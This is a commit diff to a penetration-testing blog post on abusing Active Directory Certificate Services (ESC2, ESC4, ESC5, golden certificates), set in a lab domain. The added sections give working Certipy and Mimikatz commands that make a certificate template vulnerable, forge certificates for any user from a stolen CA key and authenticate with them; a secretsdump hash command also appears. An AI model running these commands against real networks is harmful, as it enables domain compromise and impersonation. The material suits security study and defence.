

Before and after one commit to LuemmelSec/LuemmelSec.github.io, a Jekyll site: the page built from _posts/2022-09-16-Skidaddle-Skideldi-I-just-pwnd-your-PKI.md, in a window 1280 px wide and 1400 px high, scrolled down 31262 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
ESC2,4,5 + bonus

````diff
--- a/_posts/2022-09-16-Skidaddle-Skideldi-I-just-pwnd-your-PKI.md
+++ b/_posts/2022-09-16-Skidaddle-Skideldi-I-just-pwnd-your-PKI.md
@@ -235,7 +235,9 @@
 It describes the case, where there is either the ``Any purpose`` SKU set, or no SKU at all (which would be called a SubCA cert), which utlimately would allow the cert to be used for anything we like. Also low priv users need enrollment rights and no manager approval is in place.
 It is however not abusable like ESC1, if we can't specifiy the SAN.
 A cert with no SKU could additionally be used to sign other certs. Unfortunately these can't be used for domain auth by default, as the ``NTAuthCertificates``(see p. 14 of the whitepaper) object won't trust them.
-So the abuse cases are not clear to me. We might stumble upon a cert in a forgotten folder of some other user, maybe. But we are not able to request them. The thing that comes to my mind is relaying, and that might actually work.
+~~So the abuse cases are not clear to me. We might stumble upon a cert in a forgotten folder of some other user, maybe. But we are not able to request them. The thing that comes to my mind is relaying, and that might actually work.~~
+UPDATE:  After releasing the blog, Oliver reached out to me and helped me at quite some topics regarding ADCS. In this case you can abuse ESC2 exactly like [ESC3](#esc3), if the templates you want to target are ``Schema Version 1``, which is true for all the default templates (like ``Doman Controller``, ``Client``, ``Computer`` and so on).
+
 
 Will and Lee at least gave us a tip on how to search for them.
 ```
@@ -357,7 +359,7 @@
 
 ### Exploitation
 
-Well in this case we can't work with Certify or Certipy alone, because we need to alter the AD object / cert template. For this reason we are going to use [Will's](https://twitter.com/harmj0y) [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) or [Fortalice Solutions's](https://fortalicesolutions.com/) [modifyCertTemplate](https://github.com/fortalice/modifyCertTemplate) respectively.
+Well in this case we can't work with Certify ~~or Certipy~~ (see below update) alone, because we need to alter the AD object / cert template. For this reason we are going to use [Will's](https://twitter.com/harmj0y) [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) or [Fortalice Solutions's](https://fortalicesolutions.com/) [modifyCertTemplate](https://github.com/fortalice/modifyCertTemplate) respectively.
 
 #### PowerView & Certify
 ```
@@ -400,19 +402,82 @@
 secretsdump.py -just-dc -hashes 'aad3b435b514...:...f7207931' 'mcafeelab.local/Administrator@dc2016-2.mcafeelab.local'
 ```
 
+UPDATE: Well, again I was wrong, and Oliver added a standalone approach:
+```
+certipy template -u 'lowpriv@mcafeelab.local' -p 'low' -target 'dc2016-2.mcafeelab.local' -template 'ESC4_1'
+```
+
+<img src="/images/2022-09-16/ESC4_exploit99.png">
+
+This will make the template vulnerable to [ESC1](#esc1)
+Before and after Certipy pwnage:
+
+<img src="/images/2022-09-16/ESC4_exploit100.png">
+
+If you are on an engeagement, you might want to use the ``-safe-old`` switch to save the before-version and preserve teh ability to roll back the settings, once you have abused the template.
+More on this on Oliver`s [blog](https://research.ifcr.dk/certipy-2-0-bloodhound-new-escalations-shadow-credentials-golden-certificates-and-more-34d1c26f0dc6).
+
 ## ESC5
 
 This case describes all other possible scenarios around ACLs. Which might include:
 
-- Pwning the CA server itself to tamper around with templates and stuff
+- Pwning the CA server itself to tamper around with templates and stuff, through maybe RBCD attack or a direct way like local admin
 - ACLs wrongly set somewhere up the line in AD - maybe where some set descendant rights somewhere in the config tree
 - The CA server’s RPC/DCOM server
 - ...
 
 <img src="/images/2022-09-16/esc5_1.png">
 
-There is no direct abuse path, but you can use the before mentioned stuff as a guideline on how to proceed if this stuff here happens.
+~~There is no direct abuse path, but you can use the before mentioned stuff as a guideline on how to proceed if this stuff here happens.~~
+UPDATE: Shortly after my release I stumbled upon [n00py's](https://twitter.com/n00py1) tweet about ways to abuse a pwnd PKI server: [https://twitter.com/n00py1/status/1574423470640873472](https://twitter.com/n00py1/status/1574423470640873472).
+The answer to success was the golden cert attack, which is described here: [https://pentestlab.blog/2021/11/15/golden-certificate/](https://pentestlab.blog/2021/11/15/golden-certificate/).
+So if we pwn a PKI server (local admin is sufficient) we can forge a cert for everyone we like - even offline, like it is done with the golden ticket attack for Kerberos.
 
+### Exploitation
+
+#### GUI style with mimikatz
+
+We can use Mimikatz to forge certs directly on the CA server for any user for us if we are local admin:
+
+```
+crypto::scauth /caname:mcafeelab-DC2016-2-CA-1 /upn:Administrator@mcafeelab.local
+```
+
+<img src="/images/2022-09-16/esc5_exploit.png">
+
+Afterwards we can export the cert and use it to authenticate like described in e.g. [ESC1](#esc1).
+
+We can alternatively export the CAs cert and key manually.
+RDP to the server as admin, open ``certsrv.msc`` and trigger the ``Backup up CA`` function:
+
+<img src="/images/2022-09-16/esc5_exploit1.png">
+
+Select to export the private key and CA cert, to fetch the according ``p12`` file:
+
+<img src="/images/2022-09-16/esc5_exploit2.png">
+
+You can now use tools like [ForgeCert](https://github.com/GhostPack/ForgeCert) or Certipy to go on.
+
+#### Certipy
+
+As for mostly all cases, Oliver automated the abuse capability in Certipy. If you owned a user which is admin on the CA just do:
+
+Backup the CA cert
+```
+certipy ca -backup -u 'localadmin' -p 'test' -target 'dc2016-2.mcafeelab.local' -ca 'mcafeelab-DC2016-2-CA-1'
+```
+
+Forge a cert to whom we want to:
+```
+certipy forge -ca-pfx mcafeelab-DC2016-2-CA-1.pfx -upn god@mcafeelab.local -subject 'CN=god,CN=Users,DC=mcafeelab,DC=local'
+```
+
+And authenticate as that user:
+```
+certipy auth -pfx 'god_forged.pfx' -dc-ip '10.55.0.2'
+```
+
+<img src="/images/2022-09-16/esc5_exploit3.png">
 
 ## ESC6
 
@@ -851,6 +916,22 @@
 
 https://twitter.com/theluemmel/status/1572478359619211266
 
+### Bloodhound integration
+
+Again a cool feature from Certipy. You can export the findings of Certipy to Bloodhound with the ``-old-bloodhound`` switch:
+
+```
+certipy find -u 'lowpriv@mcafeelab.local' -p 'low' -target 'dc2016-2.mcafeelab.local' -old-bloodhound
+```
+
+<img src="/images/2022-09-16/bonus_bh1.png">
+
+We can then e.g. look for attacks paths for some of the ESC examples like ESC6 after importing Oliver's [custom queries](https://github.com/ly4k/Certipy/blob/main/customqueries.json) for Bloodhound:
+
+<img src="/images/2022-09-16/bonus_bh2.png">
+
+If you use Oliver's [fork](https://github.com/ly4k/BloodHound/) of Bloodhound, you can even find more ways for privesc via certs. Go read his [blog](https://research.ifcr.dk/certipy-2-0-bloodhound-new-escalations-shadow-credentials-golden-certificates-and-more-34d1c26f0dc6#ESC4%20—%20Vulnerable%20Certificate%20Template%20Access%20Control).
+
 # Remediation
 
 Generally speaking, check your PKI infrastructure and use the tools and tips provided. Update regularly. Challenge regularly.
@@ -887,6 +968,7 @@
 ESC4: https://github.com/daem0nc0re/Abusing_Weak_ACL_on_Certificate_Templates
 https://research.ifcr.dk/certipy-4-0-esc9-esc10-bloodhound-gui-new-authentication-and-request-methods-and-more-7237d88061f7
 https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4
+https://research.ifcr.dk/certipy-2-0-bloodhound-new-escalations-shadow-credentials-golden-certificates-and-more-34d1c26f0dc6
 https://hideandsec.sh/books/cheatsheets-82c/page/active-directory-certificate-services
 https://github.com/bats3c/ADCSPwn
 https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/adcs-+-petitpotam-ntlm-relay-obtaining-krbtgt-hash-with-domain-controller-machine-certificate
````
Also changed, not shown: other parts of _posts/2022-09-16-Skidaddle-Skideldi-I-just-pwnd-your-PKI.md (+1 -1 lines), images/2022-09-16/bonus_bh1.png (added), images/2022-09-16/bonus_bh2.png (added), images/2022-09-16/esc4_exploit100.png (added), images/2022-09-16/esc4_exploit99.png (added), images/2022-09-16/esc5_exploit.png (added), images/2022-09-16/esc5_exploit1.png (added), images/2022-09-16/esc5_exploit2.png (added), images/2022-09-16/esc5_exploit3.png (added).
